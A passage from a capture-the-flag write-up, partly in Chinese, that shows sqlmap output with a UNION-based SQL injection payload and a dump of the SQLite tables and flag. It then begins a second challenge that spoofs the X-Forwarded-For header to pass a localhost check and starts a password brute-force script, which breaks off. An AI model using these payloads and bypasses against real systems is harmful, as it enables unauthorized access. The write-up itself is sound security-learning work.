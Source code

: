         Type: UNION query
        Title: Generic UNION query (NULL) - 4 columns
        Payload: account=-4386' UNION ALL SELECT 'qvqkq'||'OFqUpiAtsLJGifUwtFLnNBcerOhXNTomXQGOxZnB'||'qpbjq',NULL,NULL,NULL-- wMXq&password=admin
    ---
    ```
* db
    ```=
    SQLite
    ```
* tables
    ```=
    +-----------------+
    | flag            |
    | sqlite_sequence |
    | users           |
    +-----------------+
    ```
* flag
    ```=
    +----+----------------------------------------+
    | id | flag                                   |
    +----+----------------------------------------+
    | 1  | you are close                          |
    | 2  | you are more closer                    |
    | 3  | almost there                           |
    | 4  | SWCTF{c0ngratu1ati0n5_u_find_th3_f1ag} |
    +----+----------------------------------------+
    ```
* flag : `SWCTF{c0ngratu1ati0n5_u_find_th3_f1ag}`

### 中科 - Web

#### admin
> 499
> Only admin can visit this page.
> http://swctf.hackersir.org:20100/
* 一開始訪問的話會跟你說 forbidden
* 想說也沒有被重新導向，這樣的話說不定是會查是不是 localhost 訪問之類的，所以設定一下 header `x-forwarded-for: 127.0.0.1`
* 之後就會出現一個輸入匡，username 的話是 admin，密碼的話我稍微用 sqlmap 打了一下，發現不行，所以認為是弱密碼
* 之後寫了一個腳本跑一下
    ```python=
    import requests

    s = requests.Session()
    set_header = {'x-forwarded-for' : '127.0.0.1'}
    url = 'http://swctf.hackersir.org:20100/'
